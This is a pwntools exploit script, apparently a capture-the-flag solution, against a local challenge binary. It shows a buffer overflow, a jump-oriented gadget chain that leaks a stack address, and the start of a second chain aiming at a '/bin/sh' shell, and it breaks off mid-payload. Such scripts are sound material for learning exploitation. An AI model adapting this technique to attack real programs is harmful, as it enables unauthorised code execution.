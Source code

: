 ```python
#!/usr/bin/python
from pwn import *

context.log_level = 'DEBUG'

p = process("./juujuu")
#p = gdb.debug("./juujuu", "b *0x4000b0")

junk = "A"*56


# Addresses 
dispatcher_gadget = p64(0x4000c7)
main_start = p64(0x4000b0)
syscall = p64(0x4000c5)
p1stackleak = p64(0x4000d4)
p2stackleak = p64(0x4000fc)
mov_rbp_rcx_jmp_rcx = p64(0x4000cf)
mov_r10_rbp_jmp_rcx = p64(0x4000ec)
xors_pop_rbp_jmp_rbp = p64(0x40010f)
sub_rsp_jmp_rcx = p64(0x400131)


junk += main_start
junk = junk.ljust(256, "A")


# First jump chain - Stack leak

payload = junk
payload += p1stackleak
payload += dispatcher_gadget
payload += mov_rbp_rcx_jmp_rcx
payload += mov_r10_rbp_jmp_rcx
payload += p2stackleak
payload += dispatcher_gadget
payload += sub_rsp_jmp_rcx

p.sendline(payload)
leak = p.recv(8)

stack = u64(leak)
log.info("Leaked stack address: {}\n".format(hex(stack)))

bufstart = stack - 0x1c8


# 2nd set of gadgets
add_rax = p64(0x400108)
inc_rax_pop_rcx = p64(0x4000de)
pop_rdi_jmp_rbp = p64(0x400125)
second_dispatcher = p64(0x400129)
pop_rbp_jmp_rbp = p64(0x400121)
movrsprsp = p64(0x40013a)
pop_rcx_jmp_rcx = p64(0x4000e4)
small_xor = p64(0x40011b)

binsh = p64(stack - 0xc8 - 16)
second_dispatcher_in_stack = p64(stack - 0xc8 - 8)
new_dispatcher_gadget = p64(stack - 0xc8)

payload = pop_rcx_jmp_rcx
payload += new_dispatcher_gadget
```